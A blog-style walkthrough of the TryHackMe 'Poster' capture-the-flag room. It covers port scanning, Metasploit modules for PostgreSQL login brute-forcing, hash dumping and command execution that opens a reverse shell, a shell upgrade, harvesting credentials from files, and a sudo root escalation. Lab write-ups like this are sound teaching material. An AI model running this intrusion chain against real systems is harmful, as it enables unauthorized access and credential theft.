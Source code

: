 ```yaml
---
layout: post
title: "Poster"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [rustscan, metasploit, postgres_sql, sudo]
image: ../../assets/img/posts/poster.png 

---
```


## Description

The sys admin set up a rdbms in a safe way.

|**Room**|[Poster](https://tryhackme.com/room/poster)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the open ports with rustscan,

```bash
rustscan -a 10.10.102.250 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186801349-1398c523-45a7-4424-a3d9-32d615b2b1a3.png)

we have 3 open ports. Let's scan them using nmap,

```bash
nmap -sC -sV -p22,80,5432 10.10.102.250 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186801396-1739ec16-bfe9-44d0-8517-619ff184d071.png)

Looks like port 22 is running ssh service, port 80 is running apache webserver and port 5432 is running PostgreSQL DB.

Now, as given in task, we need to boot up the metasploit using `msfconsole -q` and search for the modules which allows us to enumerate user credentials,

![image](https://user-images.githubusercontent.com/67465230/186801428-9437cb54-5633-46fc-8624-1e02c0c69604.png)

There is module which indeed allows us to enumerate user credentials,

```bash
use auxiliary/scanner/postgres/postgres_login
```

![image](https://user-images.githubusercontent.com/67465230/186801452-e9beb62b-dd85-4320-9014-488044399c28.png)

- **set rhosts 10.10.102.250**

Finished setting up options and then running the module, we will get the password of the user,

![image](https://user-images.githubusercontent.com/67465230/186801472-475a93f4-259c-45ed-b2ce-a5bb7d65e927.png)

Now, we need to find the module which allows us to execute the commands with proper user credentials,

```bash
use auxiliary/admin/postgres/postgres_sql
```

![image](https://user-images.githubusercontent.com/67465230/186801497-637c2d88-c3ff-40bb-a1a7-8905652e9b9c.png)

- **set rhosts 10.10.102.250**
- **set password password**

Running the module will let us know that machine is running PostgreSQL of 9.5.21 version,

![image](https://user-images.githubusercontent.com/67465230/186801589-fbc942de-c557-4145-9f9c-ab78b6b52178.png)

Now, we need to run the module which allows us to dump the hashes of user,

```bash
use auxiliary/scanner/postgres/postgres_hashdump
```

![image](https://user-images.githubusercontent.com/67465230/186801618-b00f306e-8e44-46e3-ab83-c08cc53bfc49.png)

- **set rhosts 10.10.102.250**
- **set password password**

Setting up the options and running the module,

![image](https://user-images.githubusercontent.com/67465230/186801653-547b7df1-d8ef-4d3f-b2bd-8ecbbbaf2181.png)

we got username and hashes.

Now, we need run a module which allows an authenticated user to view files of their choosing on the server,

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

![image](https://user-images.githubusercontent.com/67465230/186801676-f320c70f-5704-4600-80f2-cd2c11913648.png)

- **set rhosts 10.10.102.250**
- **set password password**
- **set lhost tun0**

Running the module will get us shell,

![image](https://user-images.githubusercontent.com/67465230/186801698-2b4e7df7-4820-452a-bbb7-63b4bde3f458.png)

we are **postgresql** user.

Since we don't have a functional shell, we need to upgrade it, `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now, we need to enumerate home directory 

![image](https://user-images.githubusercontent.com/67465230/186801717-bb8b6ae3-91fa-433d-9672-220d4383944c.png)

there are 2 users, i.e. alison and dark.

Navigating to dark user directory,

![image](https://user-images.githubusercontent.com/67465230/186801729-d46db4d3-446b-4f4c-91f2-38eb89098ff1.png)

we got credentials.txt file. 

Reading the content of file,

![image](https://user-images.githubusercontent.com/67465230/186801808-5d42f491-f801-41b0-a963-a885cf1c1710.png)

these are the credentials of dark user.

Now, we can hop into machine as dark user via ssh,

```bash
ssh dark@10.10.102.250
```

![image](https://user-images.githubusercontent.com/67465230/186801838-9de466cf-7642-4658-b64a-a1f5da8e1187.png)

we got in.

Now, let's find the files which are owned by alison user,

```bash
find / -user alison 2> /dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186801860-19f9028d-f776-428e-967f-26d01a411487.png)

there is config.php file in /var/www/html which is owned by alison user.

Reading the content of the file reveals the credentials of alison user,

![image](https://user-images.githubusercontent.com/67465230/186801882-040eb843-f674-4071-82f2-0b188b37bc54.png)

We can now switch to alison user using `su alison`,

![image](https://user-images.githubusercontent.com/67465230/186801904-c1ed8c82-b504-45ca-855c-60e274f44292.png)

Navigating to home directory and enumerating directory,

![image](https://user-images.githubusercontent.com/67465230/186801927-ea2f6826-d734-4c00-8c25-ded78c49e632.png)

we can have our user flag.

Now, time for privilege escalation part. I look for those binaries which can be run with sudo without any password, 

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/186801967-8e754117-3ba0-46ec-9c5b-fab4fa5ba421.png)

we can run all binaries as sudo.

So, we can try to switch to root user using,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/186801988-603a5879-b4a5-4b06-80f6-dd9b2ca539c5.png)

Whooop! We are now root!
